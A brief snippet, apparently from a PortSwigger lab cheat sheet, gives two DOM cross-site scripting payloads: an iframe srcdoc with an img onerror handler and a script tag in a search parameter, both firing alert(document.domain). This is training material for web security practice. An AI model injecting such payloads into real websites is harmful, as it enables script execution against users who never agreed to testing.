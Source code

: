 For "DOM XSS in jQuery":
```javascript
<iframe srcdoc="<img src=1 onerror=parent.alert(document.domain)>">
```

For "DOM XSS in document.write sink using source location.search":
```javascript
?search=<script>alert(document.domain)</script>
```

*Pro tip: Each PortSwigger lab has specific restrictions - carefully identify what's being filtered to choose the right bypass.*
